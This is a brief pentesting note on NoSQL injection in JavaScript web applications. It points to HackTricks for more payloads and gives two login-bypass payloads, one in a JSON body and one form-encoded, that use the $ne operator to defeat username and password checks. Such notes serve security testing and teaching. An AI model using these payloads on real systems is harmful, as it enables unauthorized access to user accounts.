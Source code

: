 # info

When there is a javascript application you should check for nosql injection. You maybe need to change the content type to json.

See https://book.hacktricks.xyz/pentesting-web/nosql-injection for more payloads.

# json

```json
{"user":"admin", "password": { "$ne": "asdf"}}
```

# txt

```txt
username[$ne]=asdf&password[$ne]=asdf
```
